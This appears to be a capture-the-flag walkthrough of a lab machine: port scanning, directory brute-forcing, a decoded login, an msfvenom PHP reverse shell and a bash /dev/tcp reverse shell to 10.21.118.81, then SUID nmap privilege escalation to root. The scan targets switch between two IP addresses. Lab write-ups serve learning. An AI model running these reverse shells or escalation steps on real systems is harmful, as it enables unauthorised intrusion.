 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/cb1c3fb3-2973-4fcd-b957-9ffec2337fb1"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/5223b9fb-f5d2-4f5f-b961-af45d26dec7e"></picture></h1>

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/6509eeef-95c5-43e2-8b41-9294a4206893)

## **PORT 80**
![image](https://github.com/user-attachments/assets/4d0ea598-172c-4067-b1d5-8965d718abcb)

## **PORT 443**
![image](https://github.com/user-attachments/assets/69575dea-cc05-4273-bb14-422b2f5b3a88)


```bash
whatweb http://10.10.223.160
```
![image](https://github.com/user-attachments/assets/f44e3359-cc74-4743-b2c9-c5f3c9e20e4b)

```bash
gobuster dir -u http://10.10.223.160/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/94c3631c-3f7b-4928-8f52-f9dfbcdd46a9)

![image](https://github.com/user-attachments/assets/3ef2f037-22b6-4065-8eea-bfa7f011dcd9)

![image](https://github.com/user-attachments/assets/95c7db88-bd00-45b9-8c20-009bb548f3b4)

![image](https://github.com/user-attachments/assets/572806d5-12db-440e-88a4-16a6e1785266)

![image](https://github.com/user-attachments/assets/090c0dae-5803-4d51-a495-3a4d453d7dd8)
![image](https://github.com/user-attachments/assets/959d45f4-1b81-484e-975c-ae19f5b99582)<br>
![image](https://github.com/user-attachments/assets/c17c5f8b-fb24-4b15-9f33-20ce7e32b5fb)

```bash
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/e5b4b107-1390-43e1-b5d5-653e80accca0)<br>
elliot:ER28-0652<br>
![image](https://github.com/user-attachments/assets/6af5ebc6-25f7-439c-9cd1-0b48cd970cfe)
![image](https://github.com/user-attachments/assets/4bf0c610-9e79-4be4-8b80-c4b3e426c666)

```bash
msfvenom -p php/reverse_php LHOST=10.21.118.81 LPORT=443 -f raw > pwned.php
```
![image](https://github.com/user-attachments/assets/ac8a757b-69b4-47b9-828e-487ea520472a)


![image](https://github.com/user-attachments/assets/045a6510-9a06-4f5a-95e3-0fdb756f7b8b)

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/d9fac086-7c71-4b2f-9a82-da79777f6e87)<br>
![image](https://github.com/user-attachments/assets/0160a91f-8439-4866-aff0-03daae79b264)
![image](https://github.com/user-attachments/assets/b4c10518-86b2-4d94-8bce-f5186cfe7066)

```bash
bash -c "sh -i >& /dev/tcp/10.21.118.81/444 0>&1"
```
![image](https://github.com/user-attachments/assets/8f90a8bd-4599-4582-99a8-6968ea941ccf)

```bash
nc -nlvp 444
```
![image](https://github.com/user-attachments/assets/0a5e6e27-269b-44ea-a313-8ea4fa2bb47b)

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://github.com/user-attachments/assets/1f703ba1-e294-4744-b456-e12e5701bbbc)

![image](https://github.com/user-attachments/assets/e55247dd-9190-4e58-afa8-6b7ce096c5cd)
robot:c3fcd3d76192e4007dfb496cca67e13b


![image](https://github.com/user-attachments/assets/b28ef771-3125-4e09-ae60-1889ff2224c3)
abcdefghijklmnopqrstuvwxyz

```bash
su robot
```
![image](https://github.com/user-attachments/assets/a500ac2d-0610-47b0-94e3-db17136edf65)

```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/096f03b1-c457-433a-be53-5191ba3a2ec7)

![image](https://github.com/user-attachments/assets/4f1dc63c-4f4c-47f3-898e-399dd036bb9a)

```bash
nmap --interactive
```
![image](https://github.com/user-attachments/assets/4ac2840d-ec78-4792-b939-1d5953ec795d)

```bash
!sh
```
![image](https://github.com/user-attachments/assets/50fcc1fd-b59d-496a-8ab0-a2dab7a681b1)








